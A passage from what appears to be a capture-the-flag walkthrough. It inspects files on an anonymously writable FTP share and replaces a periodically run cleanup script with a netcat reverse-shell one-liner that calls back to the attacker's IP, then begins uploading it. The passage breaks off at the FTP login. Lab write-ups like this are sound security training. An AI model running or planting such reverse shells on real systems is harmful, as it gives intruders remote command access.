 It appears that the bash script `clean.sh` is trying to delete files in the `/tmp` directory and print the output of its actions in the another file named as `removed_files.log`.

As we have access to the `removed_files.log` as well, we can check out its content as well.

```bash
┌──(kali㉿kali)-[~/Desktop/oscp/anonymous]
└─$ cat removed_files.log 
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```

Nothing interesting can be found in this log file. But one thing that can be inferred from the content of this file is that the `clean.sh` script is being run at fixed intervals which is why we can see multiple entries of "nothing to delete" in the log file. Also, we have one more file `to_do.txt`.

```bash
┌──(kali㉿kali)-[~/Desktop/oscp/anonymous]
└─$ cat to_do.txt        
I really need to disable the anonymous login...it's really not safe
```

For this file all that we can say is that **"its too late to realize!"**

From all the 3 files, `clean.sh` appears to be most useful for gaining access to the system.

## Initial Foothold

As we have write access to the `clean.sh` bash script and also that we have a downloaded copy of the same script, we can edit the bash script to run a command that would help us gain a reverse shell on the system. After editing the bash script, we can again upload it on the FTP server as we have write access as well (from the `nmap` results).

```bash
┌──(kali㉿kali)-[~/Desktop/oscp/anonymous]
└─$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.91.135 4444 >/tmp/f" > clean.sh 
                                                                                                        
┌──(kali㉿kali)-[~/Desktop/oscp/anonymous]
└─$ cat clean.sh     
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.91.135 4444 >/tmp/f

┌──(kali㉿kali)-[~/Desktop/oscp/anonymous]
└─$ ftp 10.10.139.154
Connected to 10.10.139.154.
220 NamelessOne's FTP Server!
Name (10.10.139.154:kali): anonymous
331 Please specify the password.
Password:
```